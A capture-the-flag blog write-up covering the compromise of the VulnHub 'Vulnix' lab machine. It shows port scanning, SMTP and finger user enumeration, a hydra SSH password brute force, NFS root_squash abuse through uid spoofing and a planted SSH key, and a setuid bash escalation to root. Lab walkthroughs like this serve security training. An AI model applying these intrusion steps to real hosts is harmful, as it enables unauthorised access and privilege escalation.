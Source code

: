 ```yaml
---
layout: post
title:  "Vulnix"
date:   2017-07-28 12:34
categories: ctf
---
```


Vulnix is a boot-to-root vulnerable machine found on [VulnHub](https://www.vulnhub.com/entry/hacklab-vulnix,48/). I pulled this down and ran it in Virtualbox.

Getting started we will us nmap to enumerate open ports.

    nmap -p -sV 192.168.1.130

{% highlight text %}
Starting Nmap 7.40 ( https://nmap.org ) at 2017-07-16 14:02 EDT
Nmap scan report for vulnix.hsd1.co.comcast.net (192.168.1.111)
Host is up (0.00034s latency).
Not shown: 65518 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp open smtp Postfix smtpd
79/tcp open finger Linux fingerd
110/tcp open pop3 Dovecot pop3d
111/tcp open rpcbind 2-4 (RPC #100000)
143/tcp open imap Dovecot imapd
512/tcp open exec?
513/tcp open login
514/tcp open tcpwrapped
993/tcp open ssl/imap Dovecot imapd
995/tcp open ssl/pop3 Dovecot pop3d
2049/tcp open nfs_acl 2-3 (RPC #100227)
39127/tcp open mountd 1-3 (RPC #100005)
46013/tcp open mountd 1-3 (RPC #100005)
51380/tcp open status 1 (RPC #100024)
51502/tcp open mountd 1-3 (RPC #100005)
51986/tcp open nlockmgr 1-4 (RPC #100021)
MAC Address: 08:00:27:53:D1:AF (Oracle VirtualBox virtual NIC)
Service Info: Host: vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.42 seconds
{% endhighlight %}

![Initial nmap](/assets/images/vulnix/initial_nmap.png)

We can use the postfix server to check for existing users on the machine using the VRFY command.

{% highlight text %}
nc 192.168.1.130 25
220 vulnix ESMTP Postfix (Ubuntu)
EHLO example.com
250-vulnix
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY root
252 2.0.0 root
VRFY aott
550 5.1.1 <aott>: Recipient address rejected: User unknown in local recipient table
VRFY admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table
VRFY vulnix
252 2.0.0 vulnix
VRFY dovecot
252 2.0.0 dovecot
{% endhighlight %}

Using the `smtp-user-enum` tool we can automate this and use a wordlist.

{% highlight text %}
# smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.1.130
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

----------------------------------------------------------
| Scan Information |
----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/metasploit/unix_users.txt
Target count ............. 1
Username count ........... 112
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............

######## Scan started at Sat Jul 29 17:33:28 2017 #########
192.168.1.130: ROOT exists
192.168.1.130: backup exists
192.168.1.130: bin exists
192.168.1.130: daemon exists
192.168.1.130: games exists
192.168.1.130: gnats exists
192.168.1.130: irc exists
192.168.1.130: libuuid exists
192.168.1.130: lp exists
192.168.1.130: list exists
192.168.1.130: man exists
192.168.1.130: mail exists
192.168.1.130: messagebus exists
192.168.1.130: news exists
192.168.1.130: nobody exists
192.168.1.130: postmaster exists
192.168.1.130: proxy exists
192.168.1.130: root exists
192.168.1.130: sshd exists
192.168.1.130: sync exists
192.168.1.130: sys exists
192.168.1.130: syslog exists
192.168.1.130: user exists
192.168.1.130: uucp exists
192.168.1.130: www-data exists
######## Scan completed at Sat Jul 29 17:33:28 2017 #########
25 results.

112 queries in 1 seconds (112.0 queries / sec)
{% endhighlight %}

We can easily write all the existing users to a file to be used later.

    smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.1.130 | grep exists | cut -d' ' -f2 > users_exist.txt

Using this list, we can use the fact that the finger port is open to see which of these users have a login shell.

    for i in $(cat users_exist.txt); do finger $i@192.168.1.130; done

![finger](/assets/images/vulnix/fingering.png)

Knowing the users that have a login shell, we stuff those into a file called users.txt and use hydra to bruteforce a login.

    hydra -L users.txt -P /usr/share/SecLists/Passwords/10k_most_common.txt 192.168.1.130 ssh

![hydra](/assets/images/vulnix/hydra.png)

Now that we have a valid username and password (user:letmein) we can use ssh to get in and start enumeration on the box.

![ssh with low priv](/assets/images/vulnix/ssh-in.png)

On the box I start enumeration using steps here https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

![/etc/exports](/assets/images/vulnix/exports.png)

Hmmm

    /home/vulnix	*(rw,root_squash)

Looking this up I found that the * here is a wildcard meaning that /home/vulnix can be mounted from anywhere. So, let's mount it to my machine.

![mount permission denied](/assets/images/vulnix/mount_with_permission_denied.png)

Well, we can't get in there even with root. That's what that root_squash setting does. We are only going to be able to get in there using the vulnix user, so we create a local vulnix user with the same uid(2008) and gid(2008) as the remote box.

![/etc/passwd](/assets/images/vulnix/passwd_file.png)

After creating this user and switching, we are able to get into the /mnt/vulnix directory. Here we will create an ssh key that will allow us to ssh directly to the machine using the vulnix user.

![Mounted as vulnix](/assets/images/vulnix/mounted-as-vulnix.png)

    ssh-keygen -t rsa

![create ssh key](/assets/images/vulnix/create_ssh_key.png)

![Move pub key](/assets/images/vulnix/mv_ssh_pub_key.png)

    ssh vulnix@192.168.1.130 -i /home/vulnix/.ssh/id_rsa

![SSH as vulnix](/assets/images/vulnix/ssh_with_vulnix.png)

Let's see what the vulnix user can do with `sudo -l`

![sudo -l](/assets/images/vulnix/sudo_l.png)

So we are able to edit the /etc/exports file and change that root_squash to no_root_squash.

    editsudo /etc/export

After changing this file, we would need to restart networking for the changes to take effect. Sadly we don't have a user that can do that so we just manually reboot this. Obviously in a real situation we don't have control to do this so we might have to get creative.

Prior to rebooting, let's copy /bin/bash to the /home/vulnix directory for some setuid fun.

![copy bash](/assets/images/vulnix/copy_bash.png)

After the reboot, we remount /home/vulnix and are now able access that directory with the root user.

![set uid](/assets/images/vulnix/setuid_bash.png)

```
cd /mnt/vulnix
chown root bash
chmod 4755 bash
```

Now we have everything we need to escalate to root.

On the victim machine as the vulnix user, we run `bash -p` to keep permissions of the user.

![Escalate](/assets/images/vulnix/escalation_to_root.png)

Technically we are not root, but we have all the permissions of the root user with that EUID
BOOM! Done.
